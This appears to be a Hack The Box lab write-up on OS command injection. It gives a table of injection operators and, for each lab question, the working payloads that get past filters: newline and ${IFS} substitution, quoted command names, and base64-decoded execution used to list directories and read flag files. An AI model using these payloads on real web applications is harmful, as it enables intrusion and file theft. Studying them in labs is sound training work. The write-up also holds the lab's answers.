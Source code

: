 # [HTB] Command Injections
## Command Injection Methods
## To inject an additional command to the intended one, we may use any of the following operators:

##  Injection Operator	Injection Character	URL-Encoded Character	Executed Command
```Semicolon	;	%3b	Both```
```New Line	\n	%0a	Both```
```Background	&	%26	Both (second output generally shown first)```
```Pipe	|	%7c	Both (only second output is shown)```
```AND	&&	%26%26	Both (only if first succeeds)```
```OR	||	%7c%7c	Second (only if first fails)```
```Sub-Shell	``	%60%60	Both (Linux-only)```
```Sub-Shell	$()	%24%28%29	Both (Linux-only)```

## Other Injection Operators

>**Q. Try using the remaining three injection operators (new-line, &, |), and see how each works and how the output differs. Which of them only shows the output of the injected command?**

```sh
ip=127.0.0.1|ls
```

## Identifying Filters

>**Q. Try all other injection operators to see if any of them is not blacklisted. Which of (new-line, &, |) is not blacklisted by the web application?**

```sh
ip=127.0.0.1%0als
```

## Bypassing Space Filters

>**Q. Use what you learned in this section to execute the command 'ls -la'. What is the size of the 'index.php' file?**

```sh
ip=127.0.0.1%0a{ls,-la}
```

## Bypassing Other Blacklisted Characters

>**Q. Use what you learned in this section to find name of the user in the '/home' folder. What user did you find?**

```sh
ip=127.0.0.1%0a${IFS}ls%09${PATH:0:1}home
```

## Bypassing Blacklisted Commands

>**Q. Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.**


```sh
ip=127.0.0.1%0a${IFS}c"a"t%09${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```

## Advanced Command Obfuscation

>**Q. Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1**

```sh
echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1' | base64
```

```sh
ip=127.0.0.1%0abas$@h<<<$(ba$@se6$@4${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

## Skills Assessment

>**Q. What is the content of '/flag.txt'?**

```sh
/index.php?to=&from=51459716.txt%09${PATH}&finish=1&move=1
/index.php?to=&from=51459716.txt%26l's'${IFS}%09${PATH:0:1}&finish=1&move=1
/index.php?to=&from=51459716.txt%26c"a"t${IFS}%09${PATH:0:1}flag.txt&finish=1&move=1
```

